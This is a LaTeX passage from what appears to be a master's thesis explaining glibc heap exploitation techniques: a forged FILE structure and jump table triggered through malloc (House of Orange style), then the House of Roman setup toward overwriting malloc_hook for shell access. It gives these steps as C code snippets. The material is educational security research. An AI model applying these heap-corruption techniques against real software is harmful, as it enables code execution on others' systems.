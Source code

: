 \documentclass{masterthesis}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\newcommand*\freec{\lstinline{free}\xspace}
\begin{document}
During iteration over chunks inside the \ub{}, the libc checks the size of the chunk; if the size is smaller than \lstinline{MINSIZE}, then the abort procedure called, and an attack happens.

\begin{lstlisting}[language=c,frame=tlrb]
top[1] = 0x61;
\end{lstlisting}


Now the chain of events is complete, but we have to meet the condition of \lstinline{IO_LIST_ALL}

\begin{lstlisting}[language=c,frame=tlrb]
 FILE *fp = (FILE *) top;
 fp->_mode = 0; // top+0xc0
 fp->_IO_write_base = (char *) 2; // top+0x20
 fp->_IO_write_ptr = (char *) 3; // top+0x28
 size_t *jump_table = &top[12]; // controlled memory
 jump_table[3] = (size_t) &winner;
 *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
\end{lstlisting}

Finally, we trigger the attack by one allocation.

\begin{lstlisting}[language=c,frame=tlrb]
 malloc(10);
\end{lstlisting}

\subsection{The House of roman}

\label{subsect:houseofroman}
The main goal of this attack is to get shell access by point the \lstinline{fd} pointer to \lstinline{malloc_hock} and write \emph{one-gadget} to \lstinline{malloc_hock} with a combination of \ub{} attack , \fb{}attack and Use after the free attack.

The first step is to get a pointer inside \emph{\lstinline{malloc_hook}}. \lstinline{malloc_hook} provide ability to modify the behavior of \lstinline{malloc} and \lstinline{free} with a hook function. To achieve this, we create a \fb{} chunk in a way the \lstinline{fd} pointer points to \lstinline{malloc_hook}.
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fastbin_victim = malloc(0x60); 
malloc(0x80);
uint8_t* main_arena_use = malloc(0x80);
uint8_t* relative_offset_heap = malloc(0x60);
free(main_arena_use);
\end{lstlisting}

The last \freec{}, put \lstinline{main_arena_use} chunk inside the \ub{}; also, \lstinline{main_arena_use} has a pointer to \lstinline{main_arena+0X68} inside \lstinline{fd} pointer.
Now by request a chunk inside the \fb{} chunk size, we have a chunk that has a pointer to \lstinline{main_arena inside} the \lstinline{fd} pointer.
\end{document}
